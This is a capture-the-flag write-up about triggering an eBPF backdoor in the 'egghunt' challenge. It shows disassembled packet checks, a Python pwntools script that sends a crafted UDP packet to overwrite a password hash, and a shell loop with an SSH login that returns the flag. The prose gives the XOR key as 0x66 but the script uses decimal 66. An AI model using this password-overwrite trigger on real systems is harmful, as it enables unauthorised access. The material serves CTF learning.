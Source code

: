 The first programs checks incoming packets to see if they are IP/UDP packets with destination port 1337 and a 34 byte payload

```
54: (55) if r1 != 0x40 goto pc+236   ; ip version == 4
58: (55) if r1 != 0x11 goto pc+232   ; ip protocol == 0x11 (UDP)
63: (55) if r1 != 0x5 goto pc+227    ; IHL == 5
74: (55) if r1 != 0x3905 goto pc+216 ; port == 1337 (BE)
78: (55) if r1 != 0x2a00 goto pc+212 ; len = 34 (42-8)
```

It will then check that the packet starts with "fsf", discard those characters, xor the rest of the payload with 0x66 and prefix them with "$1$".

```
92: (55) if r1 != 0x66 goto pc+198
94: (55) if r1 != 0x73 goto pc+196
96: (55) if r1 != 0x66 goto pc+194
```

This matches the format of a md5_crypt() hash and the other two eBPF programs interact with PAM so we make an educated guess that it replaces the user's actual password hash with what we provide it in this packet. The following Python code crafts the UDP packet and sends it to the server.

```python
#!/usr/bin/env python3

from pwn import *

HOST = 'egghunt.challenges.adversary.zone'
PORT = 1337

r = remote(HOST, PORT, typ='udp', level='debug')

# md5_crypt("zetatwo")
target = '$1$FmroQzZt$BlF5T8nm53SLTZdVfYCfH.'

payload = b'fsf'
payload += bytes(x^66 for x in target[3:].encode('ascii'))
assert len(payload) == 42-2*4
r.send(payload)
```

We run it in a loop and try to SSH to the server at the same time giving us the flag.

```bash
$ while sleep 1; do python3 solve.py; done &
$ ssh user@egghunt.challenges.adversary.zone -p 22
user@egghunt.challenges.adversary.zone's password: zetatwo
PTY allocation request failed on channel 0
CS{ebpf_b4ckd00r_ftw}
Connection to egghunt.challenges.adversary.zone closed.
```

Flag: `CS{ebpf_b4ckd00r_ftw}`

### Exfiltrat0r
